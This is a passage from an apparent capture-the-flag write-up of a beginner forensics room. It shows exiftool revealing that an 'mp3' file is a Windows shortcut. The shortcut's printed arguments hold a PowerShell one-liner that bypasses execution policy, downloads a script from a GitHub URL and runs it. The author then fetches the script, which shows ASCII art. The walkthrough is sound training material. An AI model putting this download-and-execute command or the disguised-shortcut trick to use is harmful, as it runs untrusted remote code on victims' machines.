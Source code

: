 Anwer: `Tyler Ramsbey`


### The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?


We use again `exiftool`to find out more about the file and read the meta information:

```bash

┌──(admin㉿PREDATOR-01)-[~/Desktop/thm/day01]
└─$ exiftool somg.mp3
ExifTool Version Number         : 13.00
File Name                       : somg.mp3
Directory                       : .
File Size                       : 2.2 kB
File Modification Date/Time     : 2024:10:30 14:32:52+01:00
File Access Date/Time           : 2024:12:08 09:43:00+01:00
File Inode Change Date/Time     : 2024:12:08 09:42:31+01:00
File Permissions                : -rw-rw-r--
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
Flags                           : IDList, LinkInfo, RelativePath, WorkingDir, CommandArgs, Unicode, TargetMetadata
File Attributes                 : Archive
Create Date                     : 2018:09:15 09:14:14+02:00
Access Date                     : 2018:09:15 09:14:14+02:00
Modify Date                     : 2018:09:15 09:14:14+02:00
Target File Size                : 448000
Icon Index                      : (none)
Run Window                      : Normal
Hot Key                         : (none)
Target File DOS Name            : powershell.exe
Drive Type                      : Fixed Disk
Drive Serial Number             : A8A4-C362
Volume Label                    :
Local Base Path                 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"

```

As we can see, the file downloads the script from here;  'https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1' Lets check the script:



```powershell

└─$ curl 'https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1'
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt
```